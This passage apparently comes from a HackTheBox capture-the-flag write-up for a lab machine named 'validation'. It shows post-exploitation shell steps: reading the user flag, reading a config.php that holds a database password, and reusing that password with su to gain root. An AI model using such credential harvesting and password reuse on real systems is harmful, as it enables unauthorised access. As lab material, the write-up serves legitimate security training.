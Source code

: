 We can capture the user flag since the whole world can read the file. Let's capture the user flag!

```bash
$ cat /home/htb/user.txt
< HERE IS THE USER FLAG>

```

Our first flag is captured, now we should continue enumerating. Let's check if we might be able to run sudo.

```bash
$ sudo -l
sh: 4: sudo: not found
```

As expected, we cannot run sudo. But it tells us sudo can not be found. Well that does not matter, we still need to enumerate. Let's check our current working directory and what files are present.

```bash
$ pwd
/var/www/html
$ ls -la
total 52
drwxrwxrwx 1 www-data www-data  4096 May 21 19:02 .
drwxr-xr-x 1 root     root      4096 Sep  3  2021 ..
-rw-r--r-- 1 www-data www-data  1550 Sep  2  2021 account.php
-rw-r--r-- 1 www-data www-data   191 Sep  2  2021 config.php
drwxr-xr-x 1 www-data www-data  4096 Sep  2  2021 css
-rw-r--r-- 1 www-data www-data 16833 Sep 16  2021 index.php
drwxr-xr-x 1 www-data www-data  4096 Sep 16  2021 js
```

We might be lucky since there is a config.php file present. We should inspect the file and if there are usernames and passwords available we should add it to our notes.

```bash
$ cat config.php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
$ 

```

## Privilege escalation
Since we have found a password we could try to use it with the root user. We can perform the command `su` to switch our user to the root. If it works we can capture the proof like we would do it in the OSCP exam.

```bash
$ su
Password: uhc-9qual-global-pw
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
hostname
validation
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
```